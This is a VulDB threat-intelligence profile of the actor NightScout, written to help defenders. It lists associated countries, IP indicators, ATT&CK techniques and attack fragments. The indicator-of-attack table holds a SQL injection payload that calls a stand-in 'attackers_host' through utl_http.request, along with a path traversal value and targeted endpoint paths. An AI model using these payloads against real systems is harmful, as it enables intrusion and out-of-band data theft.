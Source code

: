 = NightScout - Cyber Threat Intelligence

The indicators are related to https://vuldb.com/?doc.cti[VulDB CTI analysis] of the actor known as https://vuldb.com/?actor.nightscout[NightScout]. The activity monitoring correlates data from social media, forums, chat rooms, and darknet markets. It helps to determine associated actors, activities, intentions, emerging research, and attacks. Our unique predictive model is able to forecast activities and their characteristics.

Live data and more analysis capabilities are available at https://vuldb.com/?actor.nightscout

== Campaigns

The following campaigns are known and can be associated with the actor.

- NightScout

== Countries

These countries are directly (e.g. origin of attacks) or indirectly (e.g. access by proxy) associated with the actor.

. CN
. US

== IOC - Indicator of Compromise

The indicators of compromise indicate associated network ressources which are known to be part of research and attack activities.

[options="header"]
|========================================
|ID|IP address|Hostname|Confidence
|1|45.158.32.65|-|High
|2|103.255.177.138|-|High
|3|185.239.226.172|-|High
|4|210.209.72.180|-|High
|========================================

== TTP - Tactics, Techniques, Procedures

Tactics, techniques, and procedures summarize the suspected ATT&CK techniques used. This data is unique as it uses our predictive model for actor profiling.

[options="header"]
|========================================
|ID|Technique|Access Vector|Confidence
|1|T1059.007|Cross Site Scripting|High
|2|T1068|Execution with Unnecessary Privileges|High
|========================================

== IOA - Indicator of Attack

The indicators of attack list the potential fragments used for technical activities like reconnaissance, exploitation, privilege escalation, and exfiltration. This data is unique as it uses our predictive model for actor profiling.

[options="header"]
|========================================
|ID|Class|Indicator|Confidence
|1|File|/+CSCOE+/logon.html|High
|2|File|/cgi-bin/wapopen|High
|3|File|iesfootprint.jsp|High
|4|File|login_meeting.cgi|High
|5|Library|ContentStore/Base/CVDataPipe.dll|High
|6|Argument|FILECAMERA|Medium
|7|Argument|src|Low
|8|Input Value|../..|Low
|9|Input Value|11' AND utl_http.request('http://attackers_host/lalal')='1' GROUP BY panel_name)) --|High
|========================================

== References

The following list contains external sources which discuss the actor and the associated activities.

* https://vxug.fakedoma.in/archive/APTs/2021/2021.02.01/Operation%20NightScout.pdf

== License

(c) https://vuldb.com/?doc.changelog[1997-2021] by https://vuldb.com/?doc.about[vuldb.com]. All data on this page is shared under the license https://creativecommons.org/licenses/by-nc-sa/4.0/[CC BY-NC-SA 4.0]. Questions? Check the https://vuldb.com/?doc.faq[FAQ], read the https://vuldb.com/?doc[documentation] or https://vuldb.com/?contact[contact us]!
